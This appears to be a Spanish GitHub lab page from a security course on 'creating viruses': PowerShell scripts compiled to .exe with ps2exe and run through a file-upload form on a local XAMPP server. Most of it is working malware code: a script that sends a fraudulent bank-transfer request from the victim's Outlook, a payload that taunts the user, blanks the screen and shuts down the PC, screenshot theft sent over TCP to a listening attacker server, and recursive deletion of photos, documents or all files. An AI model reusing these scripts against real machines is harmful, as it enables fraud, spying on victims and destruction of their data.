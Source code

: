 # CREACIÓN DE VIRUS (VERSIÓN .EXE)
<p align="center">
<img src="https://media.giphy.com/media/115BJle6N2Av0A/giphy.gif" />
</p>
Vamos a crear con powershell script que posteriormente convertiremos en archivos ejecutables (.exe). Para ello usaremos WIN-PS2EXE (Modo Gráfico)

Instalaremos con powershell el modulo (modo administrador)
```powershell
Install-Module -Name ps2exe
```
Posteriormente abriremos el programa de forma gráfica.
```powershell
win-ps2exe
```
Para crear el .exe solo tenemos que introducir la ruta del script .ps1 en SOURCE FILE y la ruta + el nombre del archivo (incluyendo la extension .exe) en Target file.
<br/>
<p align="center">
<a href="https://i.stack.imgur.com/iZ9es.png"><img src="https://i.stack.imgur.com/iZ9es.png" /></a>
</p>
<br/>

Para mas dudas con la instalación visita.
 [TUTORIAL](https://www.optimizationcore.com/scripting/powershell-ps1-to-exe-converter-ps2exe-markus-scholtes/)
## MODUS OPERANDI
Para crear el laboratorio, trabajaremos con localhost en xampp y vamos a crear un **formulario** al cual subiremos los ejecutables que se guardarán en una carpeta **Upload** (propiedad de la victima) donde posteriormente ejecutaremos.
Para ello crearemos un PHP dentro de htdocs con lo siguiente:
```powershell
<?php
system(".\\uploads\\hola.exe");
?>
```

Aqui podemos ver como crearlo [Formulario y carpeta upload](https://github.com/PabloQueipo/IAW/blob/cf923c250a9a52f6598e0b01b7d996cb9978ef58/2020_11_27.md)

------------------------------

## CASOS VARIOS
<p align="center">
<a href="https://www.campusciberseguridad.com/media/k2/items/cache/9267284e7733f4bec00d2e114d3f3ba1_XL.jpg"><img src="https://www.campusciberseguridad.com/media/k2/items/cache/9267284e7733f4bec00d2e114d3f3ba1_XL.jpg" /></a>
</p>

### PHISHING
Haciendo una investigación previa se consiguen correos electronicos de personal de la empresa y desde la cuenta de la víctima mandaremos un correo a otro compañero pidiendo un ingreso en una cuenta bancaria.

```powershell
$Outlook = New-Object -ComObject Outlook.Application
$Mail = $Outlook.CreateItem(0)
$Mail.To = "keipo20@gmail.com"
$Mail.Subject = "URGENTE"
$Mail.Body ="Buenos días, haz un ingreso de 100 € a la Cuenta Bancaria siguiente: xx xxxx xx xxxx xxxxxxxxxxx"
$Mail.Send()
```

**Phishing con la aplicación** [NEXPHISHER](https://github.com/PabloQueipo/SAD/blob/main/2020_11_11.md)

### MOLESTAR 
:satisfied:
Ejecutable con la siguiente secuencia:
1. Minimizar todas las pantallas.
2. Voz con mensaje
3. Gif que habremos introducido junto con el .exe
4. Voz con mensaje y posterior apagar pantalla
5. Bucle que mueve el ratón.
6. APAGAR EL PC 20 segundos después.

<p align="center">
<img src="https://media.giphy.com/media/eaECZB7V6GACc/giphy.gif"/>
</p>


```powershell
(New-Object -ComObject Shell.Application).MinimizeAll()
(New-Object -com SAPI.SpVoice).speak("Acabo de entrar en tu ordenador")
Start-Process ".\\uploads\\hacker.gif"

Start-Sleep 1
(New-Object -com SAPI.SpVoice).speak("TE VOY A APAGAR LA PANTALLA")

$code = @"
using System;
using System.Runtime.InteropServices;
public class API
{
    [DllImport("user32.dll")]
    public static extern
    int SendMessage(IntPtr hWnd, UInt32 Msg, IntPtr wParam, IntPtr lParam);
}
"@
$t = Add-Type -TypeDefinition $code -PassThru
$t::SendMessage(0xffff, 0x0112, 0xf170, 2)

for(1)
{
    Start-Sleep -Seconds 1
    $xa = [System.Windows.Forms.Cursor]::Position.X
    $ya = [System.Windows.Forms.Cursor]::Position.y
    Write-Host $xa $ya
    Start-Sleep -Seconds 1
    [System.Windows.Forms.Cursor]::Position=New-Object System.Drawing.Point(($xa+50),($ya+50))
    $xa = [System.Windows.Forms.Cursor]::Position.X
    $ya = [System.Windows.Forms.Cursor]::Position.y
    Write-Host $xa $ya
}
Start-Sleep 20
Stop-Computer -ComputerName localhost
```

### CAPTURAS DE PANTALLA

Dos maneras:
- Guardarlas en el propio sistema
- Mandarlas Cliente/Servidor

#### Propio Sistema
Con este Script podemos realizar capturas de pantalla y guardarlas en la ruta que indiquemos.
```powershell
[Reflection.Assembly]::LoadWithPartialName("System.Drawing")
function screenshot([Drawing.Rectangle]$bounds, $path) {
$bmp = New-Object Drawing.Bitmap $bounds.width, $bounds.height
$graphics = [Drawing.Graphics]::FromImage($bmp)
$graphics.CopyFromScreen($bounds.Location, [Drawing.Point]::Empty, $bounds.size)
$bmp.Save($path)
$graphics.Dispose()
$bmp.Dispose()
}
$bounds = [Drawing.Rectangle]::FromLTRB(0, 0, 1000, 900)
screenshot $bounds "C:\Users\keipo\Desktop\screenshot.png"
```
-------------------------------------------
#### Cliente/Servidor

Para ello el **Cliente será** el archivo que debera ejecutar **la víctima**, y el **Servidor** deberá estar previamente escuchando.
<br/>
**Cliente/Víctima**
:innocent:
```powershell
$port=2053
$TcpClient=New-Object System.Net.Sockets.TcpClient([IPAddress]::Loopback, $port)
$GetStream = $TcpClient.GetStream()
$StreamWriter = New-Object System.IO.StreamWriter $GetStream
$path=’C:\Users\keipo\Desktop\screenshot.bmp’
$Bitmap=New-Object System.Drawing.Bitmap([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Width, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Height)
$Graphics=[System.Drawing.Graphics]::FromImage($Bitmap)
$Graphics.CopyFromScreen((New-Object System.Drawing.Point(0,0)), (New-Object System.Drawing.Point(0,0)), $Bitmap.Size)
$Graphics.Dispose()
$Bitmap.Save($path,'Bmp')
$Bytes = [System.IO.File]::ReadAllBytes($path)
$StreamWriter.Write($Bytes,0,$Bytes.length)
$StreamWriter.Dispose()
$GetStream.Dispose()
$TcpClient.Dispose()
```

**Servidor/Delincuente**
:smiling_imp:
```powershell
$port=2053
$IPEndPoint=New-Object System.Net.IPEndPoint([IPAddress]::Any,$port)
$TcpListener=New-Object System.Net.Sockets.TcpListener $IPEndPoint
$TcpListener.Start()
$AcceptTcpClient=$TcpListener.AcceptTcpClient()
$GetStream=$AcceptTcpClient.GetStream()
$StreamReader=New-Object System.IO.StreamReader $GetStream
$ReadAllLines = $StreamReader.ReadToEnd()
$Bytes = ([system.Text.Encoding]::Default).GetBytes($ReadAllLines)
[System.IO.File]::WriteAllBytes('C:\Users\keipo\Desktop\screenshotcopy.bmp',$Bytes)
$StreamReader.Dispose()
$GetStream.Dispose()
$AcceptTcpClient.Dispose()
$TcpListener.Stop()
```

### BORRADO DE TODA LA INFORMACIÓN O ALGÚN TIPO
Podemos **Borrar** toda la información o solo algun tipo.
<p align="center">
<img src="https://media.giphy.com/media/R7m04yMaGWVeE/giphy.gif" />
</p>
**Fotografías**
```powershell
$fotos=Get-ChildItem -Recurse -Filter *.jpg
Remove-Item $fotos
```
**Ejecutables**
```powershell
$fotos=Get-ChildItem -Recurse -Filter *.exe
Remove-Item $fotos
```
**Documentos**
```powershell
$fotos=Get-ChildItem -Recurse -Filter *.docx
Remove-Item $fotos
```
**TODO**
```powershell
$fotos=Get-ChildItem -Recurse 
Remove-Item $fotos
```

### CREACIÓN DE KEYLOGGER (PYTHON)
[Pablo Queipo Keylogger](https://github.com/PabloQueipo/SAD/blob/83925cc70ef76fc94868dacb8c112919c6221c53/2020_11_09.md9)
